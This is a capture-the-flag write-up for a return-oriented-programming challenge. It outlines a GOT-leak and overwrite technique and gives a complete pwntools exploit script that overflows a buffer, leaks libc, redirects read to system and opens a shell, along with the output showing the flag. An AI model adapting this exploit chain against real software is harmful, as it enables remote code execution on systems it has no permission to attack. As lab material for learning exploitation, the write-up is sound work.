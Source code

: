 ### Overview
This challenge is the same as the ``rop`` challenge in this folder.
So the way to solve is the same. For more detail, let's visit ``rop`` challenge.

# Flow to solve:
* write the value of read@got which is point to the address of read function in libc
* after know that address, calculate lib base
* system address = lib base + offset of system in libc
* change read@got point to system address known from previous step
* use read@plt to read system address to read@got, and send "/bin/sh" together with system, the address of "/bin/sh" will be stored in read@got + 8
* now, execute read@plt == system@plt because we change read@got to system address
* execute read(/bin/sh) and  get shell
### Exploitation
```py
from pwn import *
p = remote("host8.dreamhack.games", 8625)
e = ELF("./basic_rop_x64")
lib = ELF("./libc.so.6")

pop_rdi = 0x0000000000400883
pop_rsi_r15 = 0x0000000000400881
ret = 0x00000000004005a9

writeplt = e.plt['write']
readplt = e.plt['read']
readgot = e.got['read']

buf = b'A' * (0x40 + 8)
payload = buf
# write(1, readgot, 8)
payload += p64(pop_rdi) + p64(1)
payload += p64(pop_rsi_r15) + p64(readgot) + p64(0)
payload += p64(writeplt)

#read(0, readgot, 8)
payload += p64(pop_rdi) + p64(0)
payload += p64(pop_rsi_r15) + p64(readgot) + p64(0)
payload += p64(readplt)

# read(binsh)
payload += p64(pop_rdi) + p64(readgot  + 0x8)
payload += p64(ret)
payload += p64(readplt)

p.send(payload)
buf = b'A' * 0x40
p.recvuntil(buf)
readlib = u64(p.recv(6) + b'\x00\x00')
libase = readlib - lib.symbols['read']
system = libase + lib.symbols['system']
print('read', readlib)
print('libc_base', libase)
print('system', system)
p.send(p64(system) + b'/bin/sh\x00')
p.interactive()
```

### Result

```bash
$ python3 exploit.py
[*] Switching to interactive mode
\x00\x00\xc0\x1d\x9aUM\x7f\x00\x00 \xa4\x9bUM\x7f\x00\x00p\x96\x9fUM\x7f\x00\x006\x06@\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00$ ls
basic_rop_x64
flag
$ cat flag
DH{6311151d71a102eb27195bceb61097c15cd2bcd9fd117fc66293e8c780ae104e}
[*] Got EOF while reading in interactive
$  
```